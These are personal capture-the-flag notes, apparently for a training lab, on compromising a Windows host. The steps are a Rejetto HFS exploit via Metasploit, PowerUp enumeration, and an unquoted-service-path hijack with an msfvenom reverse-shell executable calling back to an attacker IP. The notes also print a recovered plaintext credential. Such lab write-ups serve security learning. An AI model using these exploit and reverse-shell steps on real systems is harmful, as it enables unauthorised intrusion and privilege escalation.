 ### [nmap.init.out](./nmap.init.out)
### [nmap.out](./nmap.out)

# port 80, 8080
- :8080 running rejetto http file server, vulnerable for CVE-2014-6287
- Metesploit
    - Modudle `exploit/windows/http/rejetto_hfs_exec`
    - Payload options `windows/shell_reverse_tcp`

# Privesc using Powersploit PowerUp
- [PowerSploit | Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- use `multi/manage/shell_to_meterpreter` to upgrade to a meterpreter shell, then use `upload` command to upload the PowerUp.ps1 to RHOST
- "To execute this using Meterpreter, I will type `load powershell` into meterpreter. Then I will enter powershell by entering `powershell_shell`"

```
AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced
SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    File Permissions: bill [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteDa
ta/CreateFiles])
    Advanced SystemCare Service
```

```
  ???????????? Checking Credential manager
  ?  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
  [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string
   Username:              STEELMOUNTAIN\bill
   Password:               PMBAf5KhZAxVhvqb
   Target:                STEELMOUNTAIN\bill
   PersistenceType:       Enterprise
   LastWriteTime:         9/27/2019 5:22:42 AM
```

- Use msfvenom to generate a payload as an Windows executable for reverse shell

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.240.61 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advan
ced.exe
```

- Upload the new executable to AdvancedSystemCareService9 's path
```
meterpreter > upload Advanced.exe
[*] uploading  : /home/parallels/Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/parallels/Advanced.exe -> Advanced.exe
[*] uploaded   : /home/parallels/Advanced.exe -> Advanced.exe
meterpreter > dir
Listing: C:\Program Files (x86)\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   32768  dir   2019-09-26 11:17:30 -0400  Advanced SystemCare
100777/rwxrwxrwx  73802  fil   2021-09-20 00:05:21 -0400  Advanced.exe
40777/rwxrwxrwx   16384  dir   2019-09-26 11:17:48 -0400  IObit Uninstaller
40777/rwxrwxrwx   4096   dir   2019-09-26 11:17:46 -0400  LiveUpdate

# start a netcat session listening for this

meterpreter > shell
Process 2640 created.
Channel 19 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9
[SC] ControlService FAILED 1062:

The service has not been started.


C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

# PrevSec Part II
- get a copy of [netcat.exe](./nc.exe.zip), and [this exploit](./39161.py)
- rename the netcat bin to nc.exe according to the exploit's description
- update port and ip in the exploit script
- run it twice!


Check out JH's walkthrough and reorganize this note!
https://zacheller.dev/thm-steelmountain